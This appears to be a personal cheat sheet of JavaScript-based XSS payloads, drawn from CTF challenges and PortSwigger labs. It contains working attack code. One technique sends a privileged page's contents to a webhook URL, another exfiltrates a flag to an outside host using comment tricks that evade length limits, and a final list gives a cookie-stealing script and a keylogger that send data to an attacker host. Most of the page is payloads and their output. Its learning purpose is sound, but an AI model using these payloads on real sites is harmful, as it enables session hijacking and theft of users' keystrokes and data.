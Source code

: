 # JavaScript based Payloads

## Basic test payloads

```html
<img src=x onerror=alert(document.domain)>

<script>document.write(123)</script>

```

## Interesting Techniques 


### Technique 1 
>#### Fetch-free technique to obtain a privileged page's content


```html 
<form method="post" id="theForm" action="/flag" target='hacker'>
    <!-- Form body here -->
</form>
<script> 
    let w = window.open('','hacker'); 	
    // w can be accessed as long as same-origin policy is satisfied
    
    document.getElementById('theForm').submit();
    
    setTimeout(()=>{
        document.location= `https://webhook.site/645c63<something>5-a172-a9014e389741?c=${w.document.body.innerHTML}`
    },500);

</script>

```

### Technique 2 
>#### Using quotes and comments to swallow existing content and to achieve XSS


```js
// Server-side code for a To-Do list creation feature with limitations on both individual line size and the entire list size 

const parsed = list
    .trim()
    .split("\n")
    .map((x) => x.trim());
if (parsed.length > 20) {
    res.status(400).send("list must have at most 20 items");
    return;
}
if (parsed.some((x) => x.length > 12)) {
    res.status(400).send("list items must not exceed 12 characters");
    return;
}

// The created list can be accessed as a checkbox list in a HTML file 

```

```html
<!-- Original Payload -->

 <img src=''onerror='fetch("/flag").then(r=> r.text() ).then( t=> window.open("http:"+"//hack"+".site"+"/"+t))'>

 <!-- Modified Payload to satisfy the length requirements -->

<img src='
'onerror='/*
*/fetch("/*
*//flag")./*
*/then(r=>/*
*/r.text()/*
*/).then(/*
*/t=>/*
*/window/*
*/.open(/*
*/"http:"+/* 
*/"//hack"/*
*/+".site/*
*/"+"/"/*
*/+t))'>

<!-- The ' (quote) after the src attritube and the ' before onerror would engulf the in between junk html as an img src and would throw an error.-->

<!-- Anything within the quotes of onerror attritube would be considered as js code. So to omit the junk html associated with each line in the list, comments (/**/) are used. -->

```

### Techniques learnt on PortSwigger Labs

>#### DOM XSS in document.write sink using source location.search
>
> - *General Thought process for XSS (pretending it to be a black box test)* 
> - A "search" text box to search for blogs is present.
> - The text entered in the text box is returned back in the Server's response and gives a semblance of *reflected XSS*. But it isn't possible in reality as the characters such as `'` and `"` are represented using HTML entities.
> - So, must look for the `document.write` sink as the question suggests. 

Spotted the sink in the HTML code:

```html
<script>
    function trackSearch(query) {
        document.write('<img src="/resources/images/tracker.gif?searchTerms='+query+'">');
    }
    var query = (new URLSearchParams(window.location.search)).get('search');
    if(query) {
        trackSearch(query);
    }
</script>
```
```bash
# First, the 'search' parameter from the query string in URL is extracted and stored in the variable 'query'.

# The variable 'query' is passed to the function 'trackSearch' which uses document.write() (the sink) to write a piece of HTML code to the page which includes the contents of the variable 'query' facilitating DOM based XSS
```

Test Payload :

`/?search=hello"world`

```html
<!-- O/p -->

<img src="/resources/images/tracker.gif?searchTerms=hello" world"="">

<!-- The payload worked! (despite the wierd addition of a SPACE character before the word 'world'; might be a browser thing, not sure) -->
```

XSS Payload : 

`/?search="><img+src%3dx+onerror%3dalert('XSS!')>`

```html
<!-- O/p -->

<img src="/resources/images/tracker.gif?searchTerms=">
<img src="x" onerror="alert('XSS!')">

<!-- The payload worked! (despite the wierd addition of "" (quotes) for the attributes' values of the second "img" tag which wasn't originally present in the payload; might be a browser thing, not sure) -->
```

---


## Common XSS Payloads

```html
<!-- Session Stealing -->

<script>fetch('https[:]//hacker.website/steal?cookie=' + btoa(document.cookie));</script> 

<!-- Key Logger -->

<script>document.onkeypress = function(e) { fetch('https[:]//hacker.website/log?key=' + btoa(e.key) );}</script>
```

